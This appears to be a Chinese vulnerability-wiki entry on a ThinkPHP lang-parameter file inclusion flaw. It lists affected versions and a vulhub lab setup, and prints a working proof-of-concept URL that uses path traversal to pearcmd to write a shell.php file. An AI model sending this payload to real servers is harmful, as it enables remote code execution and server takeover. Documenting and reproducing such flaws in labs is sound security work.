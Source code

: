 # ThinkPHP LoadLangPack lang 任意文件包含漏洞

## 漏洞描述

当Thinkphp 程序开启了多语言功能时，可以通过 get、header、cookie 等位置传入参数，使用 pearcmd 文件包含达到命令执行，获取服务器权限

## 漏洞影响

<a-checkbox checked>Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x</a-checkbox></br>

## 环境搭建

<a-checkbox checked>docker pull vulhub/thinkphp:6.0.12</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1671154096412-bb0dedfd-eb08-4b0c-af16-60a54db8a17d.png)

验证POC

```php
/public/index.php?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php
```

![img](/assets/PeiQi-Wiki/img/1671154607827-3548f528-c745-4ed1-994a-8aee9850ddee.png)
![img](/assets/PeiQi-Wiki/img/1671154706972-596ab1d0-26ce-428b-a54b-b94ddaf4e8ef.png)